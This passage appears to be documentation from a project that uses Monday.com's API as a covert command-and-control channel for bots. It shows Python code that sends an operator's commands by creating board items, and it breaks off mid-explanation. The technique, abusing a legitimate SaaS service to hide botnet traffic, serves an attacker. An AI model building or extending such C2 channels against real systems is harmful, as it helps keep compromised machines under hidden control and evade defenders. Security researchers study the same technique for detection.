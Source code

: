 # Monday's API

Monday.com's API can be accessed [here](https://monday.com/developers/v2)

The two main actions that we are mainly interested in are querying the *boards* item name and ID field since this is where our bots will look for commands. The item ID field will be used for responding to commands with the appropriate data. And we are also interested in *mutating monday.com and creating updates* since this is how we will send our bots commands from an attacker's perspective.

## Sending Commands

API method used: [Mutating > Items > Create Item](https://monday.com/developers/v2#mutations-section-items-create)

In order to properly send a command, we need the:

* *board_id*

* *group_id*

* *item_name*

The *board_id* is simply the last part of the URL when you select a board:

![](imgs/img.png)

The *group_id* always appears to be 'topics', even when you change the group name for some reason. So I've hardcoded this into the code in the *sendCommand()* function's *query* variable.

And the *item_name* is simply the command you want to send.

The Python code to perform the following is:

```python
def sendCommand(apiKey, boardId, cmd):
    url = "https://api.monday.com/v2/"
    headers = {"Authorization": apiKey}
    query = {"query": "mutation {create_item (board_id: " + boardId + ", group_id: \"topics\", item_name: \"" + cmd + "\") {id}}"}
    response = requests.post(url, headers=headers, data=query)
    print(response.json())
```

If the API call is successful, the output would look something like this:

```
{'data': {'create_item': {'id': 'id_value'}}, 'account_id': account_id}
```

where the *id_value* is the ID of the item and *account_id* is the ID of  your account.

When you send a command, it will appear in the specified group as an item. For example, if we call *sendCommand()* and pass the string "update" to the *cmd* argument (meaning we're sending an "update" command), the group would then look like this:
